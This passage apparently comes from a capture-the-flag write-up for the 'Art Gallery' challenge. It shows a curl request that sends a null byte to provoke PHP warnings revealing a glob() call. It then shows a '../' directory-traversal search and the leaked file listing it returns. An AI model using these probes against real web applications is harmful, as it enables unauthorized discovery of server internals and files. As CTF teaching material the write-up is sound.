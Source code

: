 What happens if we search for something a bit more problematic, such as a null byte?

```console
root@kali:/media/sf_CTFs/shabak/Art_Gallery# curl http://art.shieldchallenges.com/?search=%00 -s | grep Warning
<b>Warning</b>:  glob() expects parameter 1 to be a valid path, string given in <b>/var/www/html/index.php</b> on line <b>12</b><br />
<b>Warning</b>:  array_filter() expects parameter 1 to be array, null given in <b>/var/www/html/index.php</b> on line <b>12</b><br />
<b>Warning</b>:  Invalid argument supplied for foreach() in <b>/var/www/html/index.php</b> on line <b>12</b><br />
```

The error messages from the application leak some details from the internal implementation. We see that `glob` is being used, which means that we can try to exploit directory traversal by searching for something like `http://art.shieldchallenges.com/?search=../`. This gives us the following interesting output:

```html


<div class="card-columns">
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   <div class="card card-pin col-lg-3 col-md-4 col-sm-6 filter ..">
      <img class="card-img" src="files/Fabio/../aurora-borealis.jpg" alt="Card image">
      <div class="overlay">
         <h2 class="card-title title">aurora-borealis</h2>
      </div>
   </div>
   
   
   <div class="card card-pin col-lg-3 col-md-4 col-sm-6 filter ..">
      <img class="card-img" src="files/Fabio/../forest.jpg" alt="Card image">
      <div class="overlay">
         <h2 class="card-title title">forest</h2>
      </div>
   </div>
   
   
   <div class="card card-pin col-lg-3 col-md-4 col-sm-6 filter ..">
      <img class="card-img" src="files/Habier/../aurora-borealis.jpg" alt="Card image">
      <div class="overlay">
         <h2 class="card-title title">aurora-borealis</h2>
      </div>
   </div>
   
   
   <div class="card card-pin col-lg-3 col-md-4 col-sm-6 filter ..">
      <img class="card-img" src="files/Habier/../forest.jpg" alt="Card image">
      <div class="overlay">
         <h2 class="card-title title">forest</h2>
```